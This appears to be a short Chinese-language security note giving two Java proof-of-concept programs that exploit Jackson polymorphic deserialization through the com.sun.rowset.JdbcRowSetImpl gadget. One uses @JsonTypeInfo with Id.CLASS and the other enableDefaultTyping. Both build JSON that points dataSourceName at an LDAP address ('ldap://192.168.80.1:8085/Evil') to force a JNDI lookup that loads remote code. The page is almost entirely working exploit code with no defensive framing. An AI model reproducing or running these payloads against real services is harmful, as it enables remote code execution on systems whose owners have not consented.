 JdbcRowSetImpl肯定能用

## JdbcRowSetImpl

### Id_Class版

```java
public class JdbcRowSetImpl {
    public static class Id_Class_Test {
        @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
        public Object object;
    }
    public static void main(String[] args) throws IOException {
        String jsonInput = aposToQuotes("{\"object\":{'@class':'com.sun.rowset.JdbcRowSetImpl',\n" +
                "'dataSourceName':'ldap://192.168.80.1:8085/Evil',\n" +
                "'autoCommit':0,\n" +
                "}\n" +
                "}");
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        try {
            JdbcRowSetImpl.Id_Class_Test test = mapper.readValue(jsonInput, JdbcRowSetImpl.Id_Class_Test.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }
}
```



### enableDefaultTyping版

```java
public class JdbcRowSetImpl {
    public static class enableDefaultTyping_Test {
        public Object object;
    }
    public static void main(String[] args) throws IOException {
        String jsonInput = aposToQuotes("{\"object\":['com.sun.rowset.JdbcRowSetImpl',\n" +
                "{\n" +
                "'dataSourceName':'ldap://192.168.80.1:8085/Evil',\n" +
                "'autoCommit':0,\n" +
                "}\n" +
                "]\n" +
                "}");
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            JdbcRowSetImpl.enableDefaultTyping_Test test = mapper.readValue(jsonInput, JdbcRowSetImpl.enableDefaultTyping_Test.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }
}
```